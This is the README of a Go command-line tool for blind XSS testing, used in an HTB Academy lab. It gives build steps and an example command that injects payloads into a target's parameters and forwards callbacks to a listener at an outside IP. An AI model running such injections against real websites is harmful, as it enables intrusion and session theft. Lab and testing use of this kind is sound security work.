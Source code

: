 ## Blind XSS Tool (BLiXSS)

BLiXSS is a command-line tool designed for blind XSS (Cross-Site Scripting) testing. It crafts a malicious payload to inject into web application parameters, allowing you to detect potential vulnerabilities.

![blixss](https://github.com/lrluque/blixss/assets/16742563/c7ebe0a2-2aef-4662-b29a-f0260f4cb2e8)

*Using BLiXSS with the Academy HTB XSS final assessment to get the flag using a single command*



### Installation

Clone the repository:

```bash
git clone https://github.com/lrluque/blixss.git
```

Navigate to the `blixss` directory:

```bash
cd blixss
```

Build the executable:

```bash
go build blixss.go
```

### Usage

BLiXSS requires the following parameters:

- `-t`: Target URL (e.g., `http://example.com`)
- `-b`: Body strings with the parameters of the request (e.g., `"parameter1=XSS&parameter2=test2&parameter3=XSS"`)
- `-l`: URL to forward the requests to (e.g., `http://10.10.15.122:45000`)
- `-d`: Specifies a custom directory to make the GET request. If not specified, it will attach `/<<paramName>>` on the request.

Example usage:

```bash
./blixss -t "http://example.com" -b "parameter1=XSS&parameter2=test2&parameter3=XSS" -l "http://10.10.15.122:45000" -d "custom/request/directory"
```

Parameter values different from 'XSS' will not be tested.

### Disclaimer

This tool is for educational purposes only. Do not use it for any illegal activities. I am not responsible for any misuse or damage caused by BLiXSS.

### License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
